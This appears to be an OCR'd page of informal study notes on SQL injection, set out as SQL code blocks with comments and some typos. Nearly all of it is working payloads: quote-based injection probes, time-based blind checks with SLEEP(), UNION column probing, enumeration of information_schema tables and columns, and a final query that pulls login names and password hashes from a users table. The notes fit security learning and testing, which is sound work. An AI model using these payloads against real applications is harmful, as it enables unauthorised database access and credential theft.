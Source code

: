 ```slq
-- '
SELECT ? FROM ? WHERE ? LIKE '%'%';
-- A single quote character will tell you whether the query you send is being
-- escaped. If you get an error back indicating that the query did anything except
-- perform your query properly qouted e.g. threw an error then you know you are on
-- to something.

';--
SELECT ? FROM ? WHERE ? LIKE '%';--%';
-- If you think you have found an input which has not properly escaped the data
-- then this query should return all rows in the table

Next step is to figure out which DBMS is running this thing
thing' AND 1 = SLEEP(2);--
SELECT ? FROM ? WHERE ? LIKE '%thing' AND 1 = SLEEP(2);--%';
SLEEP() is a MySQL function
WAIT_FOR_DELAY() in SQLServer
these are blind sql injections - no auto
select from guessedtablename AND sleep(5)
if it comes back slowly then you know the table name exists

-- the number of columsn you get back in the results can tell you a little more
-- about the shape of the query e.g. if you get back three columns then you can
-- reasonably assume.
SELECT ?,?,? FROM ? WHERE ? LIKE '%somequery%';

So knowing I get back 3 columsn

SELECT ?,?,? FROM ? WHERE ? LIKE '%thing' UNION (SELECT 1,2,3 FROM dual);--%';

query: thing' UNION (SELECT 1,2,3 FROM dual);--
Aside: dual is a MySQL placeholder table name for testing - TODO: find out more
the output of the query above will tell you if you are on the right track

Aside: TODO: sql UNION

query: thing' UNION (SELECT table_name,table_schema,3 FROM information_schema.tables);--
the above query will append the list of tables in the db to the search query so you can see it on the page. From there you can find tables which seem interesting e.g. "users"



query: thing' UNION (SELECT COLUMN_NAME,2,3 FROM information_schema.columns WHERE TABLE_NAME = 'users');--
gets the shape of the users table so you know which columsn to select (we have to select less than 3)

query: thing' UNION (SELECT ulogin,uhash,utype FROM users);--
```

```sql
-- If we think the query is something like
SELECT ? FROM ? WHERE ? id = %yourquery%;
-- then we don't need a ' - our attack query can be


-- ; AND 1=1
SELECT ? FROM ? WHERE ? id = 1 AND 1=1;
-- if the above returns the right answer this would tell us that this is an
-- injection point because the DB cheerfully ran our SQL
```
